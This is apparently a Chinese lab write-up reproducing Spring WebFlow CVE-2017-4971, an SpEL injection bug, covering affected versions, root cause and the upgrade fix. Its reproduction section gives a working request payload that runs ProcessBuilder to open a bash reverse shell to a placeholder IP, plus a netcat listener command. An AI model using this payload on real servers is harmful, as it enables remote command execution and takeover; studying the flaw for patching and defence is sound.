 # Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

# 漏洞描述

**Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行**





# 影响范围

Spring Web Flow 2.4.0 – 2.4.4
注：官方停止支持的更早的版本也受影响。

不受影响的版本
Spring Web Flow 2.4.5



# 复现

随机账户登录

![image-20220429162212820](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429162212820.png)

填写信息后 抓包

![image-20220429162350290](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429162350290.png)

**抓包之后，在 _eventId_confirm=&_csrf=57033da7-4538-42ec-9933-e12ac3e97db5字段后面添加payload**

**如下图:**

**payload：将ip改为需要反弹shell的ip，端口自定义**

```
&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/x.x.x.x/10086+0>%261")).start()=vulhub
```

**不能发送到重放界面，采用了csrf的token验证，直接Fonward放包即可**

![image-20220429162547700](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429162547700.png)

**利用nc监听端口 nc -lvvp xxxx**

**放包后成功反弹shell**

![image-20220429162841135](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429162841135.png)

# 原理

**就是在订阅酒店处，存在一个命令执行，直接调用了两个函数，这两个函数，一个是：addDefaultMappings ,一个是 addModelBindings。**

**其中，直接控制field这个值的函数是addDefaultMappings，且未做过滤，而addModelBindings是直接获取的java的一个配置文件，由配置文件来确定是否有 binder 节点，如果有，就无法触发代码执行。所以条件有两个：**

**（1）binder节点为空；**

**（2） useSpringBeanBinding 默认值（false）未修改。**

**由此可实际在代码中找到该页面，节点为空（代替命令执行语句）+默认值为false（点击Confirm按钮）**

# 漏洞修复

**建议相关版本的用户采取如下措施进行缓解**

**2.4.x用户升级到2.4.5**
**建议在视图状态中始终使用显式数据绑定声明, 以防止表单提交在不应设置的目标对象上设置字段。**
**Spring Web Flow with JSF 的用户不受到影响.**

